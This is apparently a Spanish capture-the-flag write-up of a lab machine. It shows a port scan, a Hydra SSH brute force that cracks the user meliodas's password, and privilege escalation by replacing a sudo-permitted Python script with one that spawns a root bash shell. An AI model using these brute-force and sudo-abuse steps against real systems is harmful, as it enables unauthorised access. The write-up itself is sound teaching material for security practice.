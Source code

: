 
# SCAN
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

# PUERTO 80
Tiene un formulario para mandar comentario pero realmente no hace nada (es un end). Lo unico que nos puede valer es que hay
un usuario que se llama "meliodas" que ha mandado 3 comentarios

# HYDRA
Probamos un ataque de fuerza bruta utilizando como usuario "meliodas". Inmediatamente obtenemos el password:
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-21 12:59:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.43.38:22/
 [STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344223 to do in 1335:36h, 16 active
[22][ssh] host: 10.10.43.38   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
Con este password podemos autentificarnos en ssh conseguimos el flag de usuario

# PRIVILEGE ESCALATION

En el directorio del usuario "meliodas" (/home/meliodas) hay un script de python "bak.py" creado por root que parece prometedor.
```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

El script lo que hace es: La funcion zipdir comprime en un archivo /var/backups/website.zip, mediante un objeto ZipFile de la libreria zipfile, todos los ficheros que estan bajo el directorio que se le pasa como primer argumento (en este caso /var/www/html)

# SUDO 
Podemos ver que programas puede ejecutar el usuario meliodas bajo sudo:

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
ojo esto no quiere decir que el usuario meliodas pueda ejecutar cualquier script de python bajo sudo, sino que puede ejecutar con cualquier
version de python (python*) el script /home/meliodas/bak.py (pero solo este)
Otra cosa que puede llamar la atención es que se pueda borrar bak.py cuando bak.py es de root. Esto es asi porque bak.py esta en el directorio /home/meliodas/ en el cual el usuario meliodas tiene privilegios -x lo que le permite borrar cualquier fichero

Dicho esto lo siguiente es muy facil:
1. Borramos el script bak.py original

> $ rm -rf /home/meliodas/bak.py

2. Creamos un nuevo script bak.py con un shell
- import os; os.system("/bin/bash")
- import subprocess; subprocess.call ("/bin/bash")

Con esto obtenemos un root shell y el resto es obvio
